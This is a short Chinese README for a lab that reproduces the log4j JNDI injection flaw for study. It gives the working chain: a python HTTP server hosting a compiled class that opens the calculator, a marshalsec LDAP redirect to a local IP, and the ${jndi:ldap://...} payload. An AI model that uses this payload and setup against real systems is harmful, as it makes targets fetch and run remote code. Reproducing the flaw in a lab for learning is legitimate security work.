 # log4j JNDI注入漏洞 复现学习

## 复现方式

1. 搭建一[应用服务](./VulnerableServer)，使用存在漏洞的log4j版本记录用户输入
2. 准备[恶意脚本](./AttackerServer/HttpServer)，并为其提供一个http
   1. 此处以打开MacOS和Widnows上的计算器应用为例，编写脚本，并对其编译得到class文件
   2. 为class文件提供http服务
      ```python3 -m http.server 8000```
3. 提供一个LDAP服务，重定向到恶意脚本所在http服务
   1. LDAP服务(https://github.com/mbechler/marshalsec)
   2. 启动```java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer exploit.codebase "http://192.168.3.226:8000/#OpenCalculatorW"```
4. 对应用服务输入脚本，触发漏洞
   1. 对应用服务器输入```${jndi:ldap://192.168.3.226:1389/OpenCalculatorW}```进行攻击
5. 攻击过程流程图
   <img src='攻击流程图.png'>
